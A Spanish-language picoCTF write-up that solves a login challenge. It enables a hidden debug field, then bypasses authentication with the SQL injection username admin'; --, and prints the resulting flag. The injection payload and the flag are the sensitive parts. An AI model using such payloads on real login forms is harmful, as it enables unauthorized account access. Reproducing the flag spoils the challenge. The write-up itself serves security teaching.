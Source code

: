 ## Objetivo:
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

**Hints:**
1. The password is being filtered.

## Solución:
1. Al inspeccionar la página de inicio de sesión, podemos encontrar que hay un campo del formulario oculto llamado `debug`. por lo tanto lo establecemos en 1:

```html
<input type="hidden" name="debug" value="0">

<input type="hidden" name="debug" value="1">
```

2. Al establecer el valor en `1`  e ingresar algún nombre de usuario y contraseña muestra:

```txt
username: admin
password: 1234
SQL query: SELECT * FROM users WHERE name='admin' AND password='1234'

Login failed.
```

3.  Al revisar la actividad de la red muestra un código de retorno de 500: Error interno del servidor. Esto indica la ausencia de un filtrado SQL adecuado. Una simple inyección SQL de `admin; --` obtenemos la bandera:

```txt
username: admin'; --
password: 1234
SQL query: SELECT * FROM users WHERE name='admin'; --' AND password='1234'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}
```

### Flag: picoCTF{m0R3_SQL_plz_c34df170}

## Notas adicionales:

### SQL Injection:
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos. La inyección SQL es una de las técnicas de piratería web más comunes. La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

## Referencias:
- https://www.w3schools.com/sql/sql_injection.asp